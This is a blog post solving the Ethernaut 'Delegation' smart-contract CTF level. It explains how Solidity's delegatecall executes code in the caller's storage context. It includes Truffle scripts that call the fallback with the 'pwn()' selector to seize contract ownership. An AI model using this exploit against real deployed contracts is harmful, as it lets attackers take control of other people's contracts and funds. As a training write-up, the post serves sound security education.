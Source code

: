 Title: Solving Zeppelin's Ethernaut CTF - Delegation
Date: 2018-08-05 16:00
Tags: ethereum, solidity, ctf, smart contracts
Category: Ethereum
Slug: solving-zeppelin-ethernaut-ctf-delegation
Summary: Post #7 of a series in which we tackle the challenges in the [Ethernaut CTF by Zeppelin](https://ethernaut.zeppelin.solutions/){:target="_blank",:rel="noopener"}. In Delegation, we study how to exploit a trustful contract that uses a not-so-safe low-level call.

## Introduction
If you haven't realized by now, let me tell you something, Solidity's low-level calls are definitely not your best friends. I'm talking about `call`, `callcode` and `delegatecall`. They can be deceiving, as we've already seen in [Fallback](https://www.notonlyowner.com/ethereum/solving-zeppelin-ethernaut-ctf-fallback/). That's the reason why many static analyzers will raise an alarm whenever any of them is found. I'm not saying you shouldn't use them - they exist for a reason - but, beware.

Now go take a look at the [Delegation challenge](https://ethernaut.zeppelin.solutions/level/0x68756ad5e1039e4f3b895cfaa16a3a79a5a73c59){:target="_blank",:rel="noopener"} and come back once you're done.

In a nutshell, we're are given an instance of the Delegation contract over which we should claim ownership. As you may have seen, the contract only has one function that we can interact with, which happens to be its fallback function. Quite a narrow scope there - so it all comes down to this line: `delegate.delegatecall(msg.data)`, the vuln must be there. Let's see what `delegatecall` does.

## In delegatecall we trust
Sadly, in this case.

First of all, `delegatecall` is just another type of message that smart contracts can send to each other - with some peculiarities, but a message at the end of the day. According to the [Solidity docs on delegatecall](https://solidity.readthedocs.io/en/v0.4.24/introduction-to-smart-contracts.html#delegatecall-callcode-and-libraries):

> [...] is identical to a message call apart from the fact that the code at the target address is executed in the context of the calling contract and `msg.sender` and `msg.value` do not change their values.

Yeap, chinese is easier, I know. Let's put this straight.

Imagine two happy friends: Alan and Bob. Alan is the laziest guy ever, he does not even bother to do anything himself, 'cause why do something when someone else can do it for you, right ? So whenever he needs to do the cleaning at home, he calls his super trustworthy BFF, Bob. Alan happens to be super trustful of Bob, I mean, like hell. So he not only let's Bob do the work, but also gives Bob all the keys to his house. All of them, even the safe-deposit box key. 

The thing is, Bob ain't no saint either. He gained Alan's **trust**, and now can do whatever he pleases with Alan's belongings. He can move around anything in Alan's house, even those things that were to be kept private.

Now imagine Alan and Bob are not humans, but smart contracts. We'll call them A and B for short. Whenever A calls delegatecall on B (B.delegatecall(...)) he's letting B proccess the whole call. B has now access to A's storage and can modify it freely. For instance, in the Delegation challenge, B (Delegate) could potentially change the owner of A (Delegation). How can we achieve that ?

## In delegate call we shouldn't have trust
Check Delegate's code. In particular, this function:

~~~solidity
function pwn() public {
        owner = msg.sender;
}
~~~

Whoever calls that `pwn` function, automatically becomes the owner of the contract. Now what if we called it through `delegatecall` ? As we read in the docs: `msg.sender` does not changes its original value, and the call would be executed **in the caller's context**. Which means that, to pass the challenge, we need to call Delegate's `pwn` function through the `delegatecall` in the Delegation contract. That way, the owner of Delegation would be changed to the sender who sent the initial call to Delegate.

Enough talk. Let's do it.

## Exploiting an unsafe delegatecall
Include both Delegate.sol and Delegation.sol in your `contracts` folder. Then write the deployment scripts as follows and run `truffle migrate`:

~~~javascript
let Delegate = artifacts.require('./Delegate.sol')
let Delegation = artifacts.require('./Delegation.sol')

module.exports = deployer => {
    // We first deploy Delegate to obtain its address
    deployer.deploy(Delegate, web3.eth.accounts[0]).then(() => {
        // Once Delegate is deployed, pass its address to the Delegation contract constructor
        return deployer.deploy(Delegation, Delegate.address)
    })
}
~~~

For the exploit, create a new file in your `exploits` folder called `delegation.exploit.js`. Set it up following the same structure we used for previous exploits.

~~~javascript
const DelegationContract = artifacts.require('Delegation')
const assert = require('assert')

async function execute(callback) {

    // Instance the Delegation contract
    let delegationContract = await DelegationContract.deployed()
    
    // Get the attacker account
    let attackerAccount = web3.eth.accounts[1]
    console.log(`Attacker address: ${attackerAccount}`)

    // Check who's the owner of the Delegation contract
    let owner = await delegationContract.owner.call()
    console.log(`Initial owner: ${owner}`)
    
    // Actual exploit will be here

    callback()
}
~~~

Next step: calling the fallback function of Delegation. In previous posts we saw that in order to execute a contract's fallback function code, all we need to do is send a transaction to the contract. However, this will be a special case.

All Ethereum transactions include a `data` field, in which we can include a payload we want to send to a contract. For instance, a contract's function signature and parameters that we wish to call. By inspecting Delegation's code, you can see that everything inside the `data` field is be passed to the Delegate contract and executed by it. Thus, we will call the `pwn` function, but first we'll need to encode it the Ethereum way.

To do so, we need to hash the prototype string of the function like functionName(type1,type2,...) with Keccak256, and then take only the first 4 bytes. That is why you will often see something like `bytes4(keccak256(...))` in Solidity code. Yet, we're writting Javascript here, not Solidity, and we can take advantage of `web3` utility functions.

The final part of the exploit looks like:

~~~javascript
await delegationContract.sendTransaction({
        from: attackerAccount,
        data: encodeFunctionSignature('pwn()')
})

// Check who's the owner of the Delegation contract
owner = await delegationContract.owner.call()
assert.equal(owner, attackerAccount)
console.log(`Final owner: ${owner}`)
~~~

And the `encondeFunctionSignature` function goes like this:

~~~javascript
function encodeFunctionSignature(functionName) {
    return web3.eth.abi.encodeFunctionSignature('pwn()')
}
~~~

You can check what that `web3` function is actually doing in here: [https://github.com/ethereum/web3.js/blob/1.0/packages/web3-eth-abi/src/index.js#L199](https://github.com/ethereum/web3.js/blob/1.0/packages/web3-eth-abi/src/index.js#L199){:rel="noopener"}


All set! You can now call `truffle exec exploits/delegation.exploit.js`, pwn the Delegation contract, and finally become its owner!

Find the full exploit code at [https://github.com/tinchoabbate/ethernaut-ctf/blob/master/exploits/delegation.exploit.js](https://github.com/tinchoabbate/ethernaut-ctf/blob/master/exploits/delegation.exploit.js){:rel="noopener"}.

That's it, another challenged solved. In the next post, we'll tackle [Force](https://ethernaut.zeppelin.solutions/level/0x24d661beb31b85a7d775272d7841f80e662c283b){:rel="noopener"} and, spoiler alert, learn how to press a hidden self-destruct button that all smart contracts have.
